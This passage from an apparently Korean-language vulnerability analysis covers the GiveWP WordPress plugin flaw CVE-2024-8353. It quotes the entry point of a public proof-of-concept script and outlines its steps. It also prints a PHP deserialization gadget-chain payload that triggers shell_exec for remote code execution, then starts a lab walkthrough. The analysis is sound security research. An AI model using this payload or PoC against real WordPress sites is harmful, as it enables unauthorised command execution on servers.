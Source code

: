 ```python
@click.command()
@click.option(
    "-u",
    "--url",
    required=True,
    help="Specify a URL or domain for vulnerability detection (Donation-Form Page)",
)
@click.option(
    "-c",
    "--cmd",
    default="/tmp/test",
    help="Specify the file to read from the server",
)

def main(url: str, cmd: str) -> None:
    cve_exploit = GiveWPExploit(url, cmd)
    GiveWPExploit.spinner(duration=1)
    cve_exploit.exploit()

if __name__ == "__main__":
    main()
```
[출처] https://github.com/EQSTLab/CVE-2024-8353
### 3.2 주요 기능
PoC 코드는 다음과 같은 기능을 포함합니다:

1. **getBaseUrl()**: 입력된 URL에서 기본 도메인 및 경로 추출
2. **getFormId()**: WordPress의 AJAX 요청을 통해 기부 폼 ID 조회 및 선택
3. **getNonce()**: 선택한 폼 ID에 대한 보안 토큰(Nonce) 획득
4. **getParams()**: Faker 라이브러리를 이용해 가짜 사용자 데이터를 생성하고 기부 데이터 구성
5. **getData()**: 원격 코드 실행 페이로드를 구성하여 give_title에 악의적 페이로드 삽입
6. **sendRequest()**: 조작된 데이터를 HTTP POST 방식으로 전송하여 공격 실행
### 3.3 PoC 실행 흐름
1. 사용자가 URL 입력
2. 스크립트가 기부 폼 ID를 조회
3. 해당 폼의 Nonce 토큰 획득
4. give_title에 조작된 페이로드(예: shell_exec 함수 호출) 삽입
5. 서버에 악의적 요청 전송 → 원격 코드 실행 유도
### 3.4 Payload
공격자는 아래의 직렬화된 객체를 활용하여 `shell_exec` 함수를 실행합니다.
```
payload = '\\O:19:"Stripe\\\\StripeObject":1:{s:10:"\\0*\\0_values";a:1:{s:3:"foo";O:62:"Give\\\\PaymentGateways\\\\DataTransferObjects\\\\GiveInsertPaymentData":1:{s:8:"userInfo";a:1:{s:7:"address";O:4:"Give":1:{s:12:"\\0*\\0container";O:33:"Give\\\\Vendors\\\\Faker\\\\ValidGenerator":3:{s:12:"\\0*\\0validator";s:10:"shell_exec";}}}}}}'
```
위 페이로드는 서버에서 `shell_exec()` 호출을 발생시켜 악의적인 명령을 실행할 수 있습니다.

## 4. PoC 실습
테스트 환경(wordpress 6.3.2, GiveWP 3.16.0)에서 기부 폼을 작성합니다.
